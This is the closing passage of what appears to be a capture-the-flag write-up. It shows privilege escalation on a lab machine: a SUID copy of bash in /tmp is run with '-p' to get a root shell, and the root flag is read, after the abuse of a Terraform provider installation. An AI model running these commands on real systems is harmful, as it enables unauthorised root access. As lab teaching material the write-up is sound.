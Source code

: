We check everything has worked as expected:
```bash
ll /tmp/bash
```
```
-rwsr-sr-x 1 root root 1396520 Aug 24 11:14 /tmp/bash*
```

We can now escalate our privileges to root by exploiting the SUID bit on the `/tmp/bash` binary.
```bash
/tmp/bash -p
whoami
```
```
root
```
We now can check the root flag.
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion

This write-up demonstrates the process of exploiting a vulnerable Terraform configuration to escalate privileges from a low-privileged user to root. By understanding the inner workings of the Terraform provider installation and leveraging the SUID bit on a malicious binary, we were able to gain root access and retrieve the root flag.
